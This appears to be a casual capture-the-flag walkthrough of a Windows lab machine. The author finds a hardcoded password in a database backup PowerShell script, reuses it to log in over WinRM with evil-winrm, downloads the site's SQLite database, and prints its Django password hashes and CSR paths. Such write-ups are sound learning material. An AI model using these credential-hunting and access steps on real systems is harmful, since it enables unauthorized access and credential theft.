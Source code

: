 ## User
I’m chilling in my fresh shell as `university\wao`, feeling like I just unlocked a secret character skin, when I peep my group memberships... Remote Management Users. So if I can snag this user’s password, I get to WinRM my way in like it’s the VIP lounge at cyberclub.

So I start creeping around the filesystem like a raccoon on a 3 AM 7-Eleven snack run, nosing in everything, praying for leftover pizza crusts (aka plaintext creds). And what do I stumble on? A folder literally named `C:\Web\DB Backup`. Yeah... they really put “Backup” in the name and thought I wouldn’t look.

Inside, I find a PowerShell script called `db-backup-automator.ps1`. And let me tell you — the vibes are immaculate. That filename alone is giving “I hardcoded something spicy in here but gaslit myself into thinking no one would ever find it.” Naturally, I’m opening that thing faster than I open DoorDash when I’m in my snack phase.

```powershell
PS C:\Web\DB Backups> cat db-backup-automator.ps1
cat db-backup-automator.ps1
$sourcePath = "C:\Web\University\db.sqlite3"
$destinationPath = "C:\Web\DB Backups\"
$7zExePath = "C:\Program Files\7-Zip\7z.exe"

$zipFileName = "DB-Backup-$(Get-Date -Format 'yyyy-MM-dd').zip"
$zipFilePath = Join-Path -Path $destinationPath -ChildPath $zipFileName
$7zCommand = "& `"$7zExePath`" a `"$zipFilePath`" `"$sourcePath`" -p'WebAO1337'"

Invoke-Expression -Command $7zCommand
```

So I crack open `db-backup-automator.ps1` and, surprise surprise, it’s doing a little "backup the DB and encrypt it" routine — but the password it’s using? Bruh. It's giving lazy dev energy. The script's password is basically `WebAO1337`, and since my user is WAO, the math is mathing. I spit those creds into WinRM:

```console
$ evil-winrm -i 10.10.11.39 -u 'wao' -p 'WebAO1337'
```

And now I’m just sitting here like, pls work, because if it does, we’re about to upgrade from "sneaking in through the bathroom window" to "walking in through the front door with main character energy."

```console
*Evil-WinRM* PS C:\Web\University> download db.sqlite3
```

Pulled the `db.sqlite3` straight off the server with Evil-WinRM — feeling like the main character already. Peep inside the DB and we got user creds and CSR file locations. 

```sql
sqlite> select id,username,password,csr,user_type from University_customuser;

2|george|pbkdf2_sha256$600000$igb7CzR3ivxQT4urvx0lWw$dAfkiIa438POS8K8s2dRNLy2BKZv7jxDnVuXqbZ61+s=||Professor
3|carolpbkdf2_sha256$600000$i8XRGybY2ASqA3kEuTW4XH$SwK7A52nA1KOnuniKifqWzrjiIyOnrZu7sf+Zvq44qc=||Professor
4|Nour|pbkdf2_sha256$600000$Bg8pRHaZsbGpLwirrZPvvn$7CtXYJhBDrGhiCvjma7X/AOKRWZS2SP0H6PAXvT96Vw=||Professor
5|martin.rose|pbkdf2_sha256$600000$VzP8VVjEQgQw6HvYAftmCl$s9k3UC/e2++hhQDF2KzhunOaAqxbi4rugRb42dC6qr0=||Professor
6|nya|pbkdf2_sha256$600000$1s48WhgRDulQ6FsNgnXjot$SZ4piS9Ryf4mgIj0prEjN+F0pGEDtNti3b9WaQfAeTk=|static/assets/uploads/CSRs/6_mnY36oU.csr|Professor
7|Steven.U|pbkdf2_sha256$600000$70XtdR4HrHHignt7EHiOpT$RP9/4PKHmbtCBq0FOPqyppQKjXntM89vc7jGyjk/zAk=|static/assets/uploads/CSRs/7.csr|Student
```
